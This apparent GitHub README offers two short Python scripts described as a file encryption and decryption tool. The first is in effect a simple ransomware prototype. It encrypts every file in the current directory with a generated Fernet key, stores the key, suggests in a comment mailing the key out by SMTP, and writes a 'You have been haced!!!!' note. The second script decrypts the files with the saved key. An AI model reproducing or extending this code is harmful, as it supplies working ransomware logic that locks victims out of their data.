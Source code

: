 # Python-encrypt-and-decrypt-file
In this project you can encrypt and decrypt files with generate a key.<br>
<b> <ins>Not: </ins> </b> The code just work for same directory files . İf out of the directory it doesnt work. 


<h2>1.Encrypt file </h2>

```python 
import os
from cryptography.fernet import Fernet


Files=[]

for file in os.listdir(): 
    if file=="voldemor.py" or  file =="thekey.key" or file=="decryption.py" or file=="hacked.txt":
        continue
    Files.append(file)


key=Fernet.generate_key() # Generate key
with open("thekey.key","wb") as f:
    f.write(key) # save key in thekey.key file or you cane use smtp and send the to your mail.

for file in Files :
    with open(file,"rb") as thefile:
        contects=thefile.read()
    contect_encrypted=Fernet(key).encrypt(contects) # Encrypt to contect 
    with open(file,"wb") as keyfile:
        keyfile.write(contect_encrypted) # save encrypt contect
with open("hacked.txt","w" ) as m: # make fun with hacked text . 
    m.write("You have been haced!!!!")
    
```


<h2> 2. Decrypt file </h2> 

``` python 
import os
from cryptography.fernet import Fernet


Files=[]

for file in os.listdir():
    if file=="voldemor.py" or  file =="thekey.key" or file=="decryption.py" or file=="hacked.txt" : # pass the key and decryption file 
        continue
    Files.append(file)




with open("thekey.key","rb") as f:
    scretkey=f.read()    # take the encrypt key

for file in Files :
    with open(file,"rb") as thefile:
        contects=thefile.read()  # save contect in the file
    contect_decrypted=Fernet(scretkey).decrypt(contects) # use the encrpyt key and decrypt contect
    with open(file,"wb") as keyfile:
        keyfile.write(contect_decrypted)
    
```
